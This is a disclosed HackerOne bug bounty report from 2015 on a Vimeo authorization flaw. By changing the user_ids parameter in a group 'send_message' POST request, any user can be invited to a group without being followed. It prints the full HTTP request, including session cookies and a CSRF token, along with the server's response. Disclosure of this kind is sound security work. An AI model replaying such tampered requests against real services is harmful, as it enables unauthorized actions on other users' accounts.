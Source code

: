# Invite any user to your group without even following him

## Report Details
- **Report ID**: 52707
- **URL**: https://hackerone.com/reports/52707
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-03-20T07:07:19.064Z
- **Disclosed**: 2016-08-25T22:59:21.853Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vimeo

## Vulnerability Information
Hi,

I can invite any user on vimeo.com to my group without even following him.

Request :

POST /groups/303339 HTTP/1.0
Host: vimeo.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: https://vimeo.com/groups/303339
Content-Length: 148
Cookie: vuid=1508464746.1333941254; __utma=18302654.119544349.1426737086.1426737086.1426737086.2; __utmc=18302654; __utmz=18302654.1426737086.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmv=18302654.|2=user_type=basic=1^3=ms=0=1^7=video_count=0=1^10=vuid=1508464746.1333941254=1; has_logged_in=1; stats_start_date=2015%2F03%2F15; stats_end_date=2015%2F03%2F19; __gads=ID=c9339811dfc88470:T=1426737131:S=ALNI_MZDCrEc2e-pl3FH439sQhwleaJtWQ; site_settings=%7B%22sticky_page%22%3A%22%5C%2Fmyvideos%22%2C%22browse_format_vid%22%3A%22video%22%7D; player=""; _abexps=%7B%2246%22%3A%22%22%7D; auto_load_stats=1; stream_id=Y2xpcHM6Mzg0NzcwMDM6aWQ6ZGVzYzpbXQ%3D%3D; stream_pos=1; __utmb=18302654.42.9.1426782866725; vimeo=epkmdrrssk70pcdx9rmxrtx7jpcdx9rmxrtx7%2Cpxux2vsdtxss0tf05kmcm5fv2fx9v0c5vkfkc5fm0; vimeo_player=eypkmdrrssk70pcdx9rmxrtx7jpcdx9rmxrtx7%2Cpcc9xcrfrv92stm0duwkvs9wrcmmv9scmvu2rdw9k; clips=9860371; __utmli=fg_group_share; xsrft=16bac65d57680f30d28df91452be51f8.d233e8fa090465217a917c2b74e7645e
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

action=send_message&user_ids=37857677&user_emails=&message=&token=16bac65d57680f30d28df91452be51f8.d233e8fa090465217a917c2b74e7645e&collection_type=

Vulnerable parameter : user_id . Just change the user ID and put any user ID .It will work.
Privilege escalation is on this request which doesn't check where you are following the user(user_id) or not.

Response :

HTTP/1.0 200 OK
Date: Thu, 19 Mar 2015 16:36:44 GMT
Server: nginx
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Mar 2015 04:36:44 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-UA-Compatible: IE=edge
X-Frame-Options: sameorigin
Content-Security-Policy-Report-Only: default-src https: data: 'unsafe-inline' 'unsafe-eval'; report-uri /_csp
Content-Length: 3376
Accept-Ranges: bytes
Via: 1.1 varnish
X-Served-By: cache-lax1426-LAX
X-Cache: MISS
X-Cache-Hits: 0
X-Timer: S1426783004.523786,VS0,VE173
Vary: User-Agent,Accept-Encoding
Set-Cookie: xsrft=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; path=/; domain=.vimeo.com
Keep-Alive: timeout=10, max=50
Connection: Keep-Alive


Kindly Fix the issue ASAP.

Thanks !

 



## Attachments
No attachments

